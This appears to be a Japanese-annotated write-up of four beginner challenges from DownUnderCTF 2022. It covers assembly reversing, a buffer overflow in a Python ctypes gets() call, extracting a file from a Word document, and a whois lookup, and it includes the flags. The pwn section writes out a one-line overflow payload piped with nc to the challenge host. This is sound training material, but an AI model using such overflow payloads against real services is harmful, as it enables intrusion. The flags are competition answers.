

# DownUnderCTF 2022

https://play.duc.tf/

- [DownUnderCTF 2022](#downunderctf-2022)
  - [rev:source provided](#revsource-provided)
    - [solution](#solution)
    - [flag](#flag)
  - [pwn:babyp(y)wn](#pwnbabypywn)
    - [solution](#solution-1)
    - [flag](#flag-1)
  - [DFIR: doxme](#dfir-doxme)
    - [solution](#solution-2)
    - [flag](#flag-2)
  - [DFIR: Shop-Knock Knock Knock](#dfir-shop-knock-knock-knock)
    - [solution](#solution-3)
    - [flag](#flag-3)

## rev:source provided

beginner, In this reversing challenge, source is provided.

Author: joseph#8210

### solution

配布されたchall.Sとバイナリから、pythonでフラグを復元しました。



```S
SECTION .data
c db 0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2

SECTION .text

global main

main:
    xor rax, rax
    xor rdi, rdi
    mov rdx, 0x32
    sub rsp, 0x32
    mov rsp, rsi
    syscall

    mov r10, 0
l:
    movzx r11, byte [rsp + r10]
    movzx r12, byte [c + r10]
    add r11, r10
    add r11, 0x42
    xor r11, 0x42
    and r11, 0xff
    cmp r11, r12
    jne b

    add r10, 1
    cmp r10, 0x32
    jne l

    mov rax, 0x3c
    mov rdi, 0
    syscall

b:
    mov rax, 0x3c
    mov rdi, 1
    syscall
```

solver

```python
data = [0xc4, 0xda, 0xc5, 0xdb, 0xce, 0x80, 0xf8, 0x3e, 0x82, 0xe8, 0xf7, 0x82, 0xef, 0xc0, 0xf3, 0x86, 0x89, 0xf0, 0xc7, 0xf9, 0xf7, 0x92, 0xca, 0x8c, 0xfb, 0xfc, 0xff, 0x89, 0xff, 0x93, 0xd1, 0xd7, 0x84, 0x80, 0x87, 0x9a, 0x9b, 0xd8, 0x97, 0x89, 0x94, 0xa6, 0x89, 0x9d, 0xdd, 0x94, 0x9a, 0xa7, 0xf3, 0xb2]
flag = ""
count = 0
for d in data:
  for i in range(0x7f):
    a = (i + count) + 0x42
    b = a ^ 0x42
    c = b & 0xff
    if c == d:
      flag += chr(i)
      count += 1
      break
print(flag)
```

### flag

```
DUCTF{r3v_is_3asy_1f_y0u_can_r34d_ass3mbly_r1ght?}
```


## pwn:babyp(y)wn

beginner, Python is memory safe, right?

Author: joseph#8210

### solution

配布されたpython scriptから`buf2`の先頭を`DUCTF`にすれば良いと判断しました。

```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

solver

```bash
python3 -c "print('A'*512 + 'DUCTF')" | nc 2022.ductf.dev 30021
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

### flag

```
DUCTF{C_is_n0t_s0_f0r31gn_f0r_incr3d1bl3_pwn3rs}
```

## DFIR: doxme

beginner, Office is my safe word...

Author: donfran#1306

### solution

`binwalk -e ./doxme`により、`./media`にフラグがありました。

### flag

```
DUCTF{WOrd_D0Cs_Ar3_R34L1Y_W3ird}
```


## DFIR: Shop-Knock Knock Knock

easy, Looks like there's been a bruteforce/password spray attempt against the website!

What's the contact email for the ISP of the attacker's IP?

Flag format: Email address, case insensitive

Author: Cake#4096

### solution

`"url": "shop.downunderctf.com/login"`のログが怪しかったため、そのときのorigin(`58.164.62.91`)をwhoisしました。

### flag

```
abuse@telstra.net
```
